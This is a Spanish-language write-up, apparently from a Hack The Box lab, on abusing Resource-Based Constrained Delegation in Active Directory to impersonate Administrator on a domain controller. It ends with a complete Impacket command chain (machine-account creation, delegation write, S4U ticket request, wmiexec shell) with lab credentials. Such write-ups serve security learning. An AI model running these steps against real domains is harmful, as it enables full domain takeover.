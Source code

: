 # Resource-Based Constrained Delegation (RBCD) ATTACK

## Descripción de la Vulnerabilidad
Resource-Based Constrained Delegation (RBCD) es una característica de Active Directory (AD) que permite a un recurso (como una cuenta de computadora) especificar qué cuentas pueden delegar autenticación en su nombre. A diferencia de la delegación restringida tradicional, donde el delegador (origen) define los servicios a los que puede delegar, en RBCD el recurso objetivo define quién puede delegar hacia él mediante el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity`.

### ¿Por qué es una vulnerabilidad?
Si un atacante obtiene control sobre una cuenta con permisos para modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` de un recurso (como una cuenta de computadora del controlador de dominio), puede configurar RBCD para permitir que una cuenta controlada por el atacante (e.g., una cuenta de computadora creada por él) delegue autenticación hacia ese recurso. Esto permite al atacante impersonar a cualquier usuario (como `Administrator`) y obtener acceso al recurso objetivo, como el controlador de dominio.

### Ejemplo de HTB SUPPORT

En este caso, el usuario `support` tenía permisos `GenericAll` o `GenericWrite` sobre la cuenta de computadora del DC (`DC$`), lo que permitió modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` y abusar de RBCD para impersonar a `Administrator`.

completo al Dominio: Al impersonar a `Administrator`, el atacante puede obtener una shell en el controlador de dominio y comprometer todo el dominio.

---

## Identificación de la Vulnerabilidad
Para identificar si RBCD puede ser explotado en un entorno Active Directory, necesitamos buscar cuentas que tengan permisos para modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` de otras cuentas (especialmente cuentas de computadoras privilegiadas, como la del controlador de dominio).


### Identificación con bloodhound

---

![alt text](./rbcd-1.png)

---

![alt text](./rbcd-2.png)

---


### Herramientas Necesarias
- BloodHound: Para identificar relaciones y permisos en el dominio.
- ldapsearch o PowerView: Para enumerar permisos manualmente.
- Impacket: Para verificar permisos y explotar la vulnerabilidad.
- Rubeus: Para realizar ataques de Kerberos y obtener tickets TGT.

## Pasos de explotación
- `addcomputer.py -dc-ip 10.10.11.174 support.htb/support:Ironside47pleasure40Watchful -computer-name attackersystem -computer-pass Summer2018!`
    - Utilizamos addcomputer.py para crear una computadora en el dominio con el usuario que identificamos como vulnerable.
- `rbcd.py -dc-ip 10.10.11.174 -action write -delegate-to DC$ -delegate-from attackersystem$ support.htb/support:Ironside47pleasure40Watchful`
    - Usamos rbcd.py para modificar el atributo msDS-AllowedToActOnBehalfOfOtherIdentity de DC$ y permitir que attackersystem$ delegue.
- `getST.py -dc-ip 10.10.11.174 -spn host/DC.SUPPORT.HTB -impersonate Administrator support.htb/attackersystem$:Summer2018!`
    - Usamos getST.py para realizar el ataque S4U (S4U2self y S4U2proxy) y obtener un ticket de servicio (TGS) para host/DC.SUPPORT.HTB como Administrator
- Exportamos el ticket `export KRB5CCNAME=$(pwd)/Administrator.ccache`
- Nos conectamos como Administrator al DC: `wmiexec.py -k -no-pass support.htb/Administrator@DC.SUPPORT.HTB`